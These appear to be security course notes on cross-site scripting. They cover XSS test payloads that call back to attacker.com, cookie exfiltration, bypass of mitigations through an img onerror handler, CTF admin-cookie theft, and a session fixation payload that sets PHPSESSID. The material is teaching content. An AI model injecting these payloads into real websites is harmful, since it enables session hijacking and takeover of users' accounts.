 * This is generally more dangerous
### XSS Testing
In all fields, have a small script that uses a `GET`back to a server with a unique ID corresponding to the field it came from
Ex: Submit the following code for each parameter
```js
name: <script>jQuery.get('http://attacker.com/1');</script>
message: <script>jQuery.get('http://attacker.com/2');</script>
```
### Performing Actions
The simplest thing to do is call a function that already exists to do something you want
* Eg: Reflected XSS to send a request to admin functionality that marks another account as an attacker

Look for operations that already exist during normal website use
* Otherwise, manually construct HTTP requests to hit certain endpoints
### Cookie Exfiltration
This will allow us to get cookies to access restricted functionality
* Send a request to an attacker controlled/accessible server with cookies in the URL or POST data
### XSS Mitigations
If only it were as simple as just filtering out `<script`
* Browser "XSS auditors"
	* Generally not a thing
	* Persistent injection bypasses
	* Possible to get around
* `HttpOnly` property
* Tie cookies to other non-changeable parts of the request
	* User Agent
	* IP
#### Mitigation Evasion
Other elements have ways to execute JavaScript
* The most common technique is with an img
```html
<img src = "doesnotexist.jpg" onerror="javascript:alert(1)" />
```
#### XSS in CTFs
Almost all scenarios are sending a message to an admin for approval
* XSS in the supplied name, email, message, ..etc
* Steal cookies to pivot to admin's account
* Commonly uses Phantom JS
* YES, this is what the homework is

## Similar Attacks - Session Fixation
In some languages (like PHP), the cookie is just an ID
* If we can inject JS before the login, we can set the cookie ID to a known value
* The user will log in, and we'll know what the ID they used is
###### Ex: Website home pages has XSS
Inject the following string
```html
<script>document.cookie = "PHPSESSID=foobar;"</script>
```
1) User logs in
2) Attacker can browse to that site
	With `PHPSESSID`=`foobar`
	Now they have become that user
